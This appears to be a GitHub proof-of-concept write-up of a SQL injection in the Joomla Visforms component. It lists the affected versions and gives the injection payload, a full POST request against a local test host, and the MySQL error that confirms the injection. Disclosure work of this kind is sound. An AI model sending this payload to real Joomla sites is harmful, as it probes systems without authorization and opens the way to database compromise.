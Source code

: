 # SQL Injection Vulnerability - Joomla Visforms Component

## Vulnerability Summary
- **Component**: Joomla Visforms
- **Vulnerability Type**: SQL Injection
- **Parameter**: `addSupportedFieldType[]`
- **Method**: POST
- **Severity**: Critical

## Affected Installs
- com_visforms versions 3.8.0 - 3.14.10.
- Visforms Base Package 3.0.0 - 3.0.4 (Since version 3.14.6 com_visforms is part of the Visforms Base Package)

## Target Information
- **Endpoint**: `/index.php?task=visforms.send&id=1`
- **Application**: Joomla CMS with Visforms extension

## Vulnerability Details

### Affected Parameter
The vulnerability exists in the `addSupportedFieldType[]` parameter, which appears to be improperly sanitized before being used in a SQL query.

### Payload Used
```
addSupportedFieldType[]=pagebreak'
```

### Request Details
```http
POST /index.php?task=visforms.send&id=1 HTTP/1.1
Host: 127.0.0.1:8081
Content-Type: application/x-www-form-urlencoded
Content-Length: 178

form1name=test&form1vorname=test&postid=1&addSupportedFieldType%5B%5D=pagebreak'&return=aHR0cDovLzEyNy4wLjAuMTo4MDgxLw%2C%2C&86943d7016f8b77ef63479de53175204=1&form1senden=Senden
```

### SQL Error Response
The application returned a MySQL syntax error, confirming the SQL injection vulnerability:

```
Error: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''pagebreak''')
ORDER BY `ordering` asc' at line 3
```

## Technical Analysis

### Error Breakdown
- **Error Code**: 1064 (MySQL syntax error)
- **Injection Point**: The single quote `'` in the payload causes the SQL query to break
- **Query Fragment**: The error reveals part of the SQL structure with `ORDER BY \`ordering\` asc`
- **Response**: HTTP 500 Internal Server Error with detailed MySQL error message

## Proof of Concept Steps
1. Navigate to the Joomla site with Visforms component
2. Submit a form with the malicious payload in the `addSupportedFieldType[]` parameter
3. Observe the SQL error response confirming the injection

## URLs
- https://nvd.nist.gov/vuln/detail/CVE-2023-23753
- https://vi-solutions.de/en/announcements/867-security-announcement-cve-2023-23754
